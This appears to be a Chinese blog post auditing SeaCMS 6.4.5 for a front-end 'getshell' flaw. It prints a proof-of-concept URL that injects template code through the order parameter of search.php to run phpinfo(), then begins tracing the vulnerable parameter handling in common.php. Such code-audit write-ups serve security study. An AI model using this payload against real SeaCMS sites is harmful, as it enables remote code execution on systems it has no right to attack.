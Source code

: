 ```yaml
---
title: seacms_getshell 篇
tags:
 - 代码审计
 - php
date: 2019-08-17
---
```






## 1@ 前言

换回我的 **小deepin了**，还是熟悉的味道，哈哈。配好所有之前的环境后，开始审计 ：）

文章撰写时的审计环境：

```
server : phpstudy
system : win10
```



## 2@ seacms 各个版本的 getshell 

### 1. v_6.4.5 前台 getshell

- 漏洞文件 **upload/search.php**

我以为，初学审计的时候可以先看 payload，然后通过给出构造的参数形式了进行顺藤摸瓜。毕竟各大漏洞平台一般较不详细的时候也会给出几条简单的 poc_payload。我们先来看看这个版本的前台 getshell 的 payload。

`http://IP/upload/search.php?searchtype=5&order=}{end if}{if:1)phpinfo();if(1}{end if}`

#### 1.1 恶意 payload 的追踪

​         首先，我们从上面的 payload 可以知晓可控参数为 **searchtype** 和 **order**，我们可以跟着 xdebug 完整的走一遍，较为清楚的了解漏洞存在的原因，和漏洞触发的条件（只列出漏洞相关的部分，相关逻辑功能的完成在这不细究）。

```php
require_once("include/common.php");
require_once(sea_INC."/main.class.php");
```

文件开头包含了两个处理方法与处理参数的文件，其中 GPC 变量的传入的文件就包含在 **common.php**中。

```php
foreach(Array('_GET','_POST','_COOKIE') as $_request)
{
	foreach($$_request as $_k => $_v) ${$_k} = _RunMagicQuotes($_v);
}
```

这段 **common.php** 文件中的代码，将外部的 GPC 参数进行 php 代码层的赋值。
